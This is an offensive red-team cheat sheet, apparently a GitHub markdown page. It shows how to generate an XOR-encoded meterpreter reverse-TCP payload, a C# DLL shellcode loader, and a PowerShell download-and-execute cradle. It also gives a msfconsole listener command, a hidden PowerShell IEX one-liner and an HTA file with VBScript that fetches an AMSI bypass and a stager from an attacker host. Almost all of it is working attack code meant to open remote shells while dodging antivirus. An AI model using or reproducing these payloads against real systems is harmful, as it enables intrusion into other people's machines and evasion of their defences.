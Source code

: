 ## Extra Xorred meterpreter DLL
- https://crypt0jan.medium.com/red-team-tutorials-4-616c565ccec9

#### Generate payload
- Save the payload size (byts). You need it later
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=443 --encoder x64/xor_dynamic -i 11 -f csharp > shellcode.txt
```

#### Xor payload
- https://github.com/crypt0jan/XORencoder
- ```git clone https://github.com/crypt0jan/XORencoder```
- Open the project in Visual Studio.
- Edit file ```Project.cs```, replacing the buf with your payload from Step 1
- At the top change Debug to Release and click Build XOR_encoder.
- Open the project directory ```\XORencoder\bin\Release\netcoreapp3.1\``` and run ```.\XOR_encoder.exe```
- Copy the new shellcode

#### Creating C# DLL
- Git clone https://github.com/crypt0jan/ClassLibrary1
- Paste the code from below over the code in ```Class1.cs```, to change some names.
- Edit line 39 and add the amount of bytes ```byte[] buf = new byte[1072]```
- Add the xorred shellcode.
- At the top change Debug to Release and click "Start"
- You will get an error popup but the build should succeed!

```
using System;
using System.Collections.Generic;
using System.Linq;
using System.Runtime.InteropServices;
using System.Text;
using System.Threading.Tasks;

namespace RunMe
{
    public class RunMeClass
    {
        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

        [DllImport("kernel32.dll")]
        static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

        [DllImport("kernel32.dll")]
        static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr VirtualAllocExNuma(IntPtr hProcess, IntPtr lpAddress, uint dwSize, UInt32 flAllocationType, UInt32 flProtect, UInt32 nndPreferred);

        [DllImport("kernel32.dll")]
        static extern IntPtr GetCurrentProcess();

        [DllImport("kernel32.dll")]
        static extern void Sleep(uint dwMilliseconds);

        public static void RunBaby()
        {
            IntPtr mem = VirtualAllocExNuma(GetCurrentProcess(), IntPtr.Zero, 0x1000, 0x3000, 0x4, 0);
            if (mem == null)
            {
                return;
            }

            byte[] buf = new byte[1072]
                {  };

            for (int i = 0; i < buf.Length; i++)
            {
                buf[i] = (byte)(((uint)buf[i] ^ 0xAA) & 0xFF);
            }

            int size = buf.Length;

            IntPtr addr = VirtualAlloc(IntPtr.Zero, 0x1000, 0x3000, 0x40);

            Marshal.Copy(buf, 0, addr, size);

            IntPtr hThread = CreateThread(IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);

            WaitForSingleObject(hThread, 0xFFFFFFFF);
        }
    }
}

```

#### Create a download and execute cradle
- Download the ```ClassLibrary1.dll``` file to your webserver.
- Create a ```runme.ps1``` file with the following content:
```
$data = (New-Object System.Net.WebClient).DownloadData('http://<IP>/ClassLibrary1.dll')
$assem = [System.Reflection.Assembly]::Load($data)
$class = $assem.GetType("RunMe.RunMeClass")
$method = $class.GetMethod("RunBaby")
$method.Invoke(0, $null)
```

#### Start listener
```
sudo msfconsole -q -x 'use multi/handler; set payload windows/x64/meterpreter/reverse_tcp; set LHOST <IP>; set LPORT 443; set ExitOnSession false; exploit -j -z'
```

#### Download and execute cradle PowerShell:
```
powershell.exe -nop -w hidden -C "IEX (New-Object System.Net.WebClient).downloadString('http://<IP>/runme.ps1')"
```

## HTA files
```
<html>
  <head>
    <title>Hello World</title>
  </head>
  <body>
    <h2>Hello World</h2>
    <p>This is an HTA...</p>
  </body>

  <script language="VBScript">
    Function Pwn()
      Set shell = CreateObject("wscript.Shell")
      shell.run "powershell.exe -nop -w hidden -c ""IEX ((new-object net.webclient).downloadstring('http://<IP>/amsi.txt'))""; ""IEX ((new-object net.webclient).downloadstring('http://<IP>/HTTPStager.ps1'))"""
    End Function

    Pwn
  </script>
</html>
```
